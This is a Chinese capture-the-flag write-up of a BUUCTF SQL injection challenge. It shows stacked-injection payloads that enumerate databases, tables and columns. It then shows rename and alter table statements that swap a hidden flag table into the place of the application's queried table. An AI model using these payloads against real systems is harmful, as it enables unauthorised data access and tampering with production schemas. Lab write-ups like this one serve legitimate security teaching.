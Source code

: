 ### rename()+alter() 改表绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/682afb5c58cb8da5c8fc3326.jpg)

测试是 Get 型数字注入

![](https://pic1.imgdb.cn/item/682afb7e58cb8da5c8fc340a.jpg)

fuzz 发现没有过滤 `;`，使用堆叠注入爆库爆表

```sql
1'; show databases;
```

![](https://pic1.imgdb.cn/item/682afc1758cb8da5c8fc38f7.jpg)

爆表发现有两个

```sql
1'; show tables;
```

![](https://pic1.imgdb.cn/item/682b00ef58cb8da5c8fc48c7.jpg)

查数字表需要用反引号 `` 包裹起来，在里面发现 flag

```
1'; show columns from `1919810931114514`; #
```

![](https://pic1.imgdb.cn/item/682b011d58cb8da5c8fc48d3.jpg)

在 `words` 表中发现两个字段

```sql
1'; show columns from words; #
```

![](https://pic1.imgdb.cn/item/682b015c58cb8da5c8fc48f2.jpg)

正常应用执行的查询类似

```sql
SELECT * FROM words WHERE id = '[用户输入]';		# 返回结果会以表格形式显示 words 表中 id 匹配的记录
```

在 fuzz 中发现没有禁用 `rename` 和 `alter`，那么就可以改表替换拿到我们想要的 flag

首先将 `words` 改为别的表名

```sql
rename table words to suc2es2;
```

同时将数字表改为 `words`

```sql
rename table `1919810931114514` to words;
```

因为查询的是 `id` 字段，数字表没有，所以要添加一个

```sql
alter table words add id int unsigned not NULL auto_increment primary key;
```

将 `flag` 字段改为 `data`

```sql
alter table words change flag data varchar(100);#
```

执行上述 payload 后，只需输入 1，就会执行

```sql
SELECT * FROM words WHERE id = '1';
```

![](https://pic1.imgdb.cn/item/682b0a2558cb8da5c8fc5047.jpg)

